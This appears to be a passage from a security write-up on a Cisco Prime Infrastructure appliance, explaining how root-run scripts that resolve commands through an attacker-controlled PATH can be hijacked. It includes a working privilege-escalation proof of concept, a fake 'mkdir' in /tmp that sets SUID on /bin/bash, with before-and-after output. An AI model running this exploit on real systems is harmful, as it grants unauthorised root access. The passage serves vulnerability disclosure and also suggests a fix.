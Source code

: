 On line 2 we can see that the scripts modifies the path. With this syntax, the effective `PATH` variable is the existing path pluss the other specified directories. Since the shell/OS (not sure what to write here) searches for the commands from left to right, we can make it run whatever we want. For example, lets say that one of the scripts runs `lspci`. The OS would then check the first directory in the PATH-variable, if that contains `lspci`. If not, contiune to the next one. Since the current PATH is prepended, we can make it run whaterver we want. One possible remidiation could be to append the current path, instead of prepending it.

Since this is kind of stupid, lets assume this is fixed. Can we still exploit it?

Some scripts like `ftpadmin.sh`, does not run `init.sh`, so they use whatever `PATH` we specify.

```bash
#ftpadmin.sh
#!/bin/bash
. /etc/sysconfig/clock
CD=`/usr/bin/dirname $0`
export XMP_HOME=${XMP_HOME:-/opt/CSCOlumos}
export INSTALL_ROOT=${INSTALL_ROOT:-/opt/CSCOlumos}

export SVC_NAME=vsftpd
export SVC_DISP_NAME="FTP Service"
export LOG_FILE=$XMP_HOME/logs/ftpadmin.log

USERNAME=${FTP_UNAME:-ftp-user}
PASSWD_EXPIRY_DAYS="+60"
FTP_PASSWD_PARAM=builtin-ftp-user

SECRETS_FOLDER=$XMP_HOME/conf/secrets
FTP_PASS_FILE=ftp.pwd
FTP_USER_SET_FLAG=".ftpUsrPass"
LOCKFILE=/var/lock/ftp/.passwdrstlck
PASSFILE=${SECRETS_FOLDER}/${FTP_PASS_FILE}
USRFLAGFILE=${SECRETS_FOLDER}/${FTP_USER_SET_FLAG}

PRIMEUSER=prime
GROUPNAME=gadmin

. $CD/inetsvcadmin.sh

mkdir -p /var/lock/ftp
mkdir -p $SECRETS_FOLDER
<...SNIP...>
```

This script doesn’t set `PATH` explicitly, and `mkdir` is a relative path. To exploit this, we’ll use a payload that sets SUID for `/bin/bash`. Just for variation, we will showcase some different payloads for the privesc.

```bash
ls -la /bin/bash
-rwxr-xr-x. 1 root root 964536 Nov 25  2021 /bin/bash

echo "chmod u+s /bin/bash" > /tmp/mkdir
chmod +x /tmp/mkdir
sudo PATH=/tmp:$PATH /opt/CSCOlumos/rcmds/ftpadmin.sh

ls -la /bin/bash
-rwsr-xr-x. 1 root root 964536 Nov 25  2021 /bin/bash
```
